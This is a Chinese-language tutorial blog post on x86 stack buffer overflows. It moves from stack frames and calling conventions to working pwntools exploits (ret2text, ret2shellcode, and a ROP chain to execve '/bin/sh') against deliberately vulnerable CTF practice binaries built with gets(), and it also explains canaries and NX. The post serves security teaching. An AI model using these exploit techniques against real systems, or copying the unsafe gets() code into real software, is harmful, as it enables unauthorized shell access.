

栈溢出应该算是一个十分基础的东西了，之前自己学过，然后过了一阵子就忘了…… 这次争取别忘掉。
# 栈怎么就溢出了
我们在数据结构中所学的栈是一种特殊的数据结构，它满足先进后出，后进先出的特性。
在 Linux 下，一个程序的地址空间实际上是这样的形态（当然我们并不需要去考虑操作系统层面和硬件层面的虚拟内存等问题）：

其中有两段，即 stack 和 heap，是可以动态变化的。stack 对应了我们所说的栈，而 heap 对应了我们所说的堆。
从图像中也可以看出来，栈的增长是从高地址到低地址的 —— 也就是说，栈底出于高地址的位置，而栈顶处在低地址的位置。x86 寄存器中的栈指针即 esp，就指明了栈顶的位置，而栈基指针 ebp 则指明了栈底的位置。
一般来说，在函数中定义的局部变量等，都会被定义在栈上，而通过 malloc 分配的变量对应的空间则是在堆上。
void test(){ | |
char a[100]; // 在栈上 | |
char *b = malloc(100 * sizeof(char)); // 在堆上 | |
} |
# 函数的调用还有返回发生了什么
每当我们去调用一个函数的时候，我们都需要遵循一定的规则，这个规则也就是调用惯例。之前专门详细分析了几种调用惯例，这里不多说了，直接就拿最简单的来说。
#include <stdio.h> | |
int inc(int a){ | |
int b = a + 1; | |
return b; | |
} | |
int main(){ | |
int a = 1; | |
a = inc(a); | |
printf("%d\n", a); | |
return 0; | |
} |
在这段程序中，在调用函数 inc(a) 之前， main() 函数做了这样的事情：
11b2: c7 45 f4 01 00 00 00 mov DWORD PTR [ebp-0xc],0x1
; 将变量a赋值为1（这一步实际上并不属于函数调用的部分）
11b9: ff 75 f4 push DWORD PTR [ebp-0xc]
; 将参数压栈（CDECL调用）
11bc: e8 cc ff ff ff call 118d <inc>
; 调用函数inc
11c1: 83 c4 04 add esp,0x4
; 函数返回之后清理栈（栈顶加4就相当于把前面push DWORD PTR [ebp-0xc]这句占据的空间顶回来）
在 x86 中， call addr 这条指令做的是这样的事情：将当前指令的下一条指令（上文中的 add esp,0x4 这句指令）地址压入栈中，并掉转到 addr 对应的地址。
执行完了上面的指令之后，程序就会跳转进入 inc() 函数中。我们来看这个函数的指令：
; 下面的两条指令也就是所谓的函数序言
118d: 55 push ebp
; 将现在的ebp（实际上也就是之前main函数的栈基址）压入栈中
118e: 89 e5 mov ebp,esp
; 将ebp设定为esp，也就是现在的栈顶就是现在的栈基址
1190: 83 ec 10 sub esp,0x10
; 开辟现在inc函数的栈空间（实际上多开了一部分空间）
在执行完了这些部分之后，函数的堆栈实际上是这个样子的：
接下来的几条指令负责计算函数的结果：
1193: 8b 45 08 mov eax,DWORD PTR [ebp+0x8]
; 从栈上获取参数
1196: 83 c0 01 add eax,0x1
1199: 89 45 fc mov DWORD PTR [ebp-0x4],eax
; 实际上DWORD PTR [ebp-0x4]这个位置就对应了函数inc中的局部变量b
119c: 8b 45 fc mov eax,DWORD PTR [ebp-0x4]
接下来的部分就是函数最后的一些操作：
119f: c9 leave
11a0: c3 ret
leave 指令等价于 mov esp, ebp 并 pop ebp 。这条指令的作用在于清楚函数的栈，执行完之后，函数的栈是现在这样的情况：
注意现在栈顶上的值是函数的返回地址 —— 也就是说，下一步执行 ret 语句之后，程序就会跳转到这个返回地址（当然同时会把栈顶的元素弹出）。
接下来 main 函数会执行一部分的清栈工作等等（实际上对于 stdcall 和 fastcall 又是不一样的情况）。
# 如果栈塞不下了……
上面的例子中，函数里的局部变量是一个 4 字节的 int 类型。一个问题在于，如果函数里面有一个数组，那么在内存中是怎么样的布局？
void test(){ | |
int a[5] = {1, 2, 3, 4, 5}; | |
} |
我们来测试一下：
pwndbg> stack 16
00:0000│ esp 0xffffd530 —▸ 0xf7fbd3e0 —▸ 0xf7d4a000 ◂— 0x464c457f
01:0004│ 0xffffd534 ◂— 0x0
02:0008│ 0xffffd538 ◂— 0xbfebfbff
03:000c│ 0xffffd53c ◂— 0x1
04:0010│ 0xffffd540 ◂— 0x2
05:0014│ 0xffffd544 ◂— 0x3
06:0018│ 0xffffd548 ◂— 0x4
07:001c│ 0xffffd54c ◂— 0x5
08:0020│ ebp 0xffffd550 —▸ 0xffffd558 —▸ 0xf7ffcb80 (_rtld_local_ro) ◂— 0x0
09:0024│ 0xffffd554 —▸ 0x565561b1 (main+8) ◂— mov eax, 0
可以看出来，栈上面的这个数组增长的顺序是和栈的增长方向是反过来的 —— 数组中前面的元素在靠近栈顶的地方，后面的元素在靠近栈底的地方。
这样一个问题就来了，如果这个局部变量占了实际上超过了我们给它大小的空间会发生什么事情？
我们可以试一下。
#include <stdio.h> | |
void bad_test(){ | |
int a[5] = {1, 2, 3, 4, 5}; | |
a[5] = 6; // 实际上这就是一个常见的数组越界访问的问题。 | |
} | |
int main(){ | |
int a = 100; | |
bad_test(); | |
printf("%d\n", a); | |
return 0; | |
} |
运行一下，然后：
Job 1, './a.out' terminated by signal SIGSEGV (Address boundary error)
SIGSEGV 是段错误。
我们可以追踪一下哪里出了问题。
从 gdb 的调试中我们可以看到， a[5] = 6; 这句话对应了 mov dword ptr [ebp], 6 这条指令。这条指令显然覆盖了 EBP 位置上面的值，这个值如果看上面的图的话，应该就能够发现这个地址上就是 main 函数的基址。
在 leave 指令之后， main 函数的 ebp 的值是 0x2。
我们把程序调试到那个位置上：
下一步是 push dword ptr [ebp - 0xc] ，可是 EBP 的值是 0x6！
很明显：
Program received signal SIGSEGV, Segmentation fault.
段错误。在 main 函数试图访问某个地址的时候出现了问题 —— main 函数并不知道自己的 ebp 已经被修改了，它仍在试图去访问基于 ebp 偏移的栈上的变量 —— 而这个内存地址现在是不合法的了。
前面是修改了栈基址，如果我们能够更进一步去修改返回地址呢？
#include <stdio.h> | |
void bad_test(){ | |
int a[5] = {1, 2, 3, 4, 5}; | |
a[5] = 6; // 实际上这就是一个常见的数组越界访问的问题。 | |
a[6] = 7; // 更过分了（ | |
} | |
int main(){ | |
int a = 100; | |
bad_test(); | |
printf("%d\n", a); | |
return 0; | |
} |
根据上面的情况，我们可以猜到当函数执行 ret 的时候，会返回到一个错误的地址。
在执行完函数中的赋值操作之后，程序的栈是这个样子。接下来在返回时，整个程序的栈更是惨不忍睹：
下面一步 ret 到的地方自然是无效的地址，程序在这之后就会崩溃。
这个也就是所谓的 “栈溢出”。
# 能不能利用
# 控制流是不是出问题了？
ret 指令会返回到现在栈顶上存放的地址。那么如果我们任意修改这个位置上的值，理论上也就能够让程序跳转到任意一个地方了。
前面程序出现了 SIGSEGV 是因为执行的地址无效，我们现在需要的是填一个有效的地址进去：
#include <stdio.h> | |
void impossible(){ | |
printf("you can't see me!\n"); | |
} | |
void bad_test(){ | |
int a[5] = {1, 2, 3, 4, 5}; | |
a[6] = &impossible; | |
} | |
int main(){ | |
bad_test(); | |
return 0; | |
} |
在运行之后，我们可以看到程序输出了：
$ ./a.out
you can't see me!
fish: Job 1, './a.out' terminated by signal SIGSEGV (Address boundary error)
很明显， impossible 这个从来没被调用的函数被执行了。在执行完函数 bad_test 后，程序尝试返回到 main 函数。但是这个时候 main 函数的返回地址已经被替换成了 impossible 函数的地址 —— 程序就会转而去执行这个 impossible 函数。
这也就是说明了程序为什么会执行 impossible 函数。
再进一步看，我们的程序是通过 ret 指令进入到 impossible 函数中的，和正常的函数调用并不一样 —— 这时候并没有一个 call impossible 指令去把执行完之后的返回地址压入栈中。也就是说，程序执行完 impossible 之后，它就不知道该返回哪里了。本来在执行 impossible 函数的 ret 指令时，栈顶应该是调用方压好的返回地址，但是没人去做这件事，栈顶现在是先前某个函数执行过程中留下的痕迹。
然后，程序就会跳转到这个不知道哪里的地方，接着程序就会崩溃。
实际上我们可以做一些更有趣的事情：
#include <stdio.h> | |
void impossible(){ | |
printf("you can't see me!\n"); | |
} | |
void impossible_too(){ | |
printf("you can't see me too!\n"); | |
} | |
void impossible_too_too(){ | |
printf("you can't see me too, too!\n"); | |
} | |
void bad_test(){ | |
int a[5] = {1, 2, 3, 4, 5}; | |
a[6] = &impossible; | |
a[7] = &impossible_too; | |
a[8] = &impossible_too_too; | |
} | |
int main(){ | |
bad_test(); | |
return 0; | |
} |
一个程序的栈中被溢出了多个地址，这是它输出发生的变化：
$ ./a.out
you can't see me!
you can't see me too!
you can't see me too, too!
fish: Job 1, './a.out' terminated by signal SIGSEGV (Address boundary error)
这张图可以来说明发生了什么 —— 我们往地址中有意填充了一系列函数的返回地址，程序也就会顺着我们填充的地址来进行跳转。
这样子，我们构造了一条控制流来影响程序的运行。
# 如果有输入的话，然后 ret2text
这样的话，如果这个程序有输入……
#include <stdio.h> | |
void impossible(){ | |
execve("/bin/sh", 0, 0); // get shell | |
} | |
void bad_test(){ | |
char input[16]; | |
gets(input); | |
} | |
int main(){ | |
bad_test(); | |
return 0; | |
} |
gets 函数的一个特点在于，它不会检查读入了多少字符。也就是说，尽管 input 只能放下 16 个 char，gets 也不会在输入了 16 个字符的时候停下来。
那这样，多余的输入就会冲入栈上的剩余空间。
如果我们去有意构造程序的输入，那我们也就能够去控制程序的运行。通过反编译工具，我们能够看到函数 impossible 的地址：
08049186 <impossible>:
8049186: 55 push ebp
8049187: 89 e5 mov ebp,esp
......
我们就需要想法设法将 0x08049186 这个地址覆盖到 bad_test 函数的返回地址。来看这个函数的指令：
080491a3 <bad_test>:
80491a3: 55 push ebp
80491a4: 89 e5 mov ebp,esp
80491a6: 83 ec 18 sub esp,0x18
80491a9: 83 ec 0c sub esp,0xc
80491ac: 8d 45 e8 lea eax,[ebp-0x18]
80491af: 50 push eax
80491b0: e8 9b fe ff ff call 8049050 <gets@plt>
80491b5: 83 c4 10 add esp,0x10
80491b8: 90 nop
80491b9: c9 leave
80491ba: c3 ret
在调用 gets 函数之前，程序通过 lea eax, [ebx-0x18] 指令将 [ebx-0x18] 这个地址放入了 eax 寄存器中。接下来， eax 被压入栈中。也就是传递给函数 gets 的参数是 eax 即 [ebx-0x18] 这个地址。这个地址实际上就是字符串读入的位置也就是变量 input 。
那么如果我们读入 0x18 个字符，便会正好覆盖到 ebx 的位置上方：
如果多覆盖一些则会溢出到返回地址中：
可以看到程序返回到了我们写上去的地址：
0x80491b5 <bad_test+18> add esp, 0x10
0x80491b8 <bad_test+21> nop
0x80491b9 <bad_test+22> leave
► 0x80491ba <bad_test+23> ret <0x37373737> ; 0x37373737="7777"
那么我们只需要去构造一个输入的字符串 "a"*(0x18 + 0x4) + addr(impossible) 就行了：
from pwn import * | |
target = process('./a.out') # 目标 | |
target_addr = 0x08049186 | |
payload = b"a"*28+p32(target_addr) | |
target.sendline(payload) # 发送 payload | |
target.interactive() # 开启交互 |
可见我们使得程序跳转到了 impossible 函数并运行了里面的 execve 命令。
获取控制权，达成。这个例子实际上控制程序跳转到 .text 段中的已有的代码，这个手段也就是被称为 ret2text 。这种利用 ret 指令的跳转来构造特定控制流的方法叫做 ROP（Return Oriented Programming）。
# 事实上安全检查关闭了
前面其实有一个问题并没有说明：在前面的测试中，安全检查是已经被关闭的。
我们在使用 gcc 编译程序的时候，设置了 -fno-stack-protector 选项，这个操作禁用了栈溢出的防护。在编译时去掉这个选项，执行脚本时程序报错：
*** stack smashing detected ***: terminated
这个安全机制被称为 canary（金丝雀）。过去在矿井中，一些矿工会携带一只金丝雀。因为金丝雀对矿井中的有毒气体非常敏感，当有毒气体浓度增加，金丝雀会中毒而死，而矿工可以得到警告逃离危险区域。
对于这段程序：
void bad_test(){ | |
char input[4]; | |
gets(input); | |
} |
我们来看一下设置了 canary 之后程序的变化：
08049186 <bad_test>:
8049186: 55 push ebp
8049187: 89 e5 mov ebp,esp
; 上面两行是正常的函数序言
8049189: 83 ec 18 sub esp,0x18
; 建立函数的栈帧
804918c: 65 a1 14 00 00 00 mov eax,gs:0x14
8049192: 89 45 f4 mov DWORD PTR [ebp-0xc],eax
; 这两条指令就是设置了canary
; 从gs段读取了一个值放入eax，再把这个值写入栈[ebp-0xc]的位置
8049195: 31 c0 xor eax,eax
8049197: 83 ec 0c sub esp,0xc
804919a: 8d 45 f0 lea eax,[ebp-0x10]
804919d: 50 push eax
804919e: e8 ad fe ff ff call 8049050 <gets@plt>
80491a3: 83 c4 10 add esp,0x10
80491a6: 90 nop
; 函数实际功能的执行
80491a7: 8b 45 f4 mov eax,DWORD PTR [ebp-0xc]
80491aa: 65 2b 05 14 00 00 00 sub eax,DWORD PTR gs:0x14
; 将现在栈上的canary和来源的地方比较一下
80491b1: 74 05 je 80491b8 <bad_test+0x32>
; 如果相等就跳转到leave指令
80491b3: e8 a8 fe ff ff call 8049060 <__stack_chk_fail@plt>
; 否则执行__stack_chk_fail函数，也就是发现了栈溢出
80491b8: c9 leave
80491b9: c3 ret
如果程序出现栈溢出的话，在 EBP 和返回地址被覆盖之前，Canary 就已经被改变了，这样程序的控制流就会转入 __stack_chk_fail 中，这个函数会执行错误处理操作并停止程序的继续运行，避免被攻击者利用。
如果我们用 checksec 之类的工具来查看的话，可以看到程序的各个安全参数：
RELRO STACK CANARY NX PIE RPATH RUNPATH Symbols FORTIFY Fortified Fortifiable FILE
Partial RELRO Canary found NX enabled No PIE No RPATH No RUNPATH 83) Symbols No 0 2 ret2text
# 如果不是 ret2text
在实际的程序里一般是不会像上面那样留一个大大的 execve('/bin/sh') 的后门的。这种程序里没有直接留下可以被调用的代码的情况，可能得需要自己去构造一个后门来插进去。
一种思路是 ret2shellcode，也就是控制程序返回到我们设置的 shellcode 中。这个 shellcode 实际上就是我们设置的能够完成一些功能（比如说拿到权限）的一串代码。
这种思路的实现条件还算是比较苛刻 —— 我们 shellcode 设置的位置需要能够被执行。怎么去理解这个问题呢？
现在许多系统都有数据执行保护（Data Execution Prevention, DEP），这个保护的作用是防止攻击者修改正在执行的程序指令。内存中的一些区块会有一个 NX 标记（No EXecution），表明这个区块是不可执行的。较多的情况下，一个程序应该满足能够被写入的区块不可被执行，能够被执行的区块不可被写入。
上面一个程序 checksec 返回的结果就显示 NX enabled ，也就是说像栈这种可以被写入的区块上面的内容不可以被作为指令来执行。
拿这个程序来说。
拖进 IDA 反汇编之后得到：
int __cdecl main(int argc, const char **argv, const char **envp) | |
{ | |
char s[100]; // [esp+1Ch] [ebp-64h] BYREF | |
setvbuf(stdout, 0, 2, 0); | |
setvbuf(stdin, 0, 1, 0); | |
puts("No system for you this time !!!"); | |
gets(s); // 可以溢出 | |
strncpy(buf2, s, 0x64u); // 将栈上临时变量 s 里面的数据复制到 buf2 里面，buf2 在 bss 段 | |
printf("bye bye ~"); | |
return 0; | |
} |
通过 checksec 我们会看到程序基本上处于无保护的状态：
RELRO STACK CANARY NX PIE RPATH RUNPATH Symbols FORTIFY Fortified Fortifiable FILE
Partial RELRO No canary found NX disabled No PIE No RPATH No RUNPATH 79) Symbols No 0 3 ret2shellcode
通过 IDA 查看可以发现变量 buf2 在 .bss 段上：
通过 gdb 调试之后可以注意到这里是可以被执行的：
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
0x8048000 0x8049000 r-xp 1000 0 /home/syml/Temp/ret2shellcode
0x8049000 0x804a000 r--p 1000 0 /home/syml/Temp/ret2shellcode
0x804a000 0x804b000 rw-p 1000 1000 /home/syml/Temp/ret2shellcode <==在这里
^ 可以被执行的
那么我们可以这样来进行攻击：构造一段可以被执行的 shellcode，通过 gets 函数读入 s 变量中，同时产生一个栈溢出，让 main 函数的返回地址指向.bss 段的 buf2 变量的位置。接下来程序会将 s 的 shellcode 复制到 buf2 中。这样，在 main 函数返回的时候，就会跳转到.bss 段的 buf2 变量位置执行我们的 shellcode。
我们可以直接使用 pwntools 构造 shellcode：
shellcode = asm(shellcraft.sh()) |
接下来就是构造栈溢出：
804858c: 8d 44 24 1c lea eax,[esp+0x1c]
8048590: 89 04 24 mov DWORD PTR [esp],eax
8048593: e8 38 fe ff ff call 80483d0 <gets@plt>
通过 objdump 查看 main 函数的汇编可以看到，在执行 gets 函数前被压入栈中的 eax 存放的就是字符串 char s[] 的地址。这个地址是相对于 esp 的偏移，而需要构造 payload 我们要知道相对于 ebp 的偏移。我们可以通过动态调试得到偏移：

可以看出来， esp 相对于 ebp 的偏移是 0xffffcf58-0xffffced0=0x88 ， char s[] 相对于 esp 的偏移是 0x1c ，那么 char s[] 相对于 ebp 的偏移就是 0x88-0x1c=0x6c 。再加上 EBP 占据的 4 个字节，所以返回地址的位置就在偏移 0x70 的位置上。
另外一种简单的方法是直接使用 pwntools 的功能：通过 pwn cyclic 200 这样的命令生成足够长度的字符串，输入进去之后会出现栈溢出，这个时候去查看 EIP 的值，通过 pwn cyclic -l <pattern> 就可以知道偏移。
所以说构造的栈溢出的 payload 应该是： shellcode+'A'补全0x70+buf的地址 。
可以构造 payload：
from pwn import * | |
target = process('./ret2shellcode') | |
shellcode = asm(shellcraft.sh()) | |
target_addr = 0x0804a080 | |
payload = shellcode.ljust(112, b'A') + p32(target_addr) | |
target.sendline(payload) | |
target.interactive() |
ok。拿张图说明一下：
# 更进一步，ret2syscall
前面的 ret2shellcode 有着比较严格的条件，就是要求 NX disabled。如果程序设置了数据执行保护，那么这种方式就无法实现了。
一个思路是去构造 ROP chain。ROP chain 可以利用程序中间的一系列 ret 指令来实现修改寄存器、进行系统调用等功能。
如果我们想要进行一个系统调用的话，我们需要给一些寄存器设定好参数。32 位系统调用 execve 的时候，系统调用号 EAX 为 0xb ， EBX 为一个指向 /bin/sh （或者你要调用的命令）的指针， ECX 和 EDX 都是 0，设置好四个寄存器之后，执行指令 int 0x80 就可以进行系统调用了。
以设置 EAX 为例，我们寻找到一段代码 pop eax; ret 。接下来我们向栈中压入（溢出）三个数据： 返回地址 ， 0xb ，前面代码段的地址。
这样，我们运行到 ret 语句时，就会跳转到 pop eax; ret ，执行完 pop eax 之后，现在栈顶的 0xb 弹出进入 eax ，接下来再 ret 到我们设置的地址。这样子我们也就完成了一个寄存器的修改。
以这个程序为例。
拖进 IDA 进行反编译，看到 main 函数存在栈溢出：
int __cdecl main(int argc, const char **argv, const char **envp) | |
{ | |
int v4; // [esp+1Ch] [ebp-64h] BYREF | |
setvbuf(stdout, 0, 2, 0); | |
setvbuf(stdin, 0, 1, 0); | |
puts("This time, no system() and NO SHELLCODE!!!"); | |
puts("What do you plan to do?"); | |
gets(&v4); | |
return 0; | |
} |
同时跑一下 checksec：
RELRO STACK CANARY NX PIE RPATH RUNPATH Symbols FORTIFY Fortified Fortifiable FILE
Partial RELRO No canary found NX enabled No PIE No RPATH No RUNPATH 2255) Symbols No 0 0 rop
程序开启了 NX，那么也就不能 ret2shellcode。
EBP 0xffffd598 —▸ 0x8049630 (__libc_csu_fini) ◂— push ebx
ESP 0xffffd510 —▸ 0xffffd52c ◂— 0x3
通过 gdb 调试可以发现，返回地址相对于数组 v4 基址的偏移还是 0xffffd598-0xffffd510-0x1c+0x4=0x70 。
那么我们就开始构造一个 ROP chain：
首先需要设置 EAX 的值为 0xb，我们通过 ROP gadget 寻找这样的指令序列：
$ ROPgadget --binary rop --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
我们选择第二个。
接下来同样，寻找设置 EBX 的指令序列：
$ ROPgadget --binary rop --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
......
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
......
0x0807b6ed : pop ss ; pop ebx ; ret
寻找设置 ECX 的指令序列：
$ ROPgadget --binary rop --only 'pop|ret' | grep 'ecx'
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
发现第二条指令能够同时设置 EBX,ECX,EDX ，我们就直接选择这一条。
以及字符串 '/bin/sh'：
$ ROPgadget --binary rop --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh
还有 syscall (int 0x80)：
$ ROPgadget --binary rop --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80
Unique gadgets found: 1
接下来就是关于指令的顺序：在栈溢出之后 ret，程序会先执行我们设置的地址处的指令 pop eax ; ret ，然后执行 pop edx ; pop ecx ; pop ebx ; ret ，最后执行 int 0x80 。
栈上应该是这样的布局：
+----------+
|0x080bb196| => pop eax ; ret
+----------+
|0x0000000b| => EAX=0xb
+----------+
|0x0806eb90| => pop edx ; pop ecx ; pop ebx ; ret
+----------+
|0x00000000| => EDX=0x0
+----------+
|0x00000000| => ECX=0x0
+----------+
|0x080be408| => EBX=0x080be408 -> '/bin/sh'
+----------+
|0x08049421| => int 0x80
+----------+
这样我们可以编写脚本：
from pwn import * | |
sh = process('./rop') | |
chains = p32(0x80bb196) + p32(0xb) + p32(0x806eb90) + p32(0x0) + p32(0x0) + p32(0x80be408) + p32(0x8049421) | |
sh.sendline(b"A" * 112 + chains) | |
sh.interactive() |
运行，getshell.
# 参考资料
[1] https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/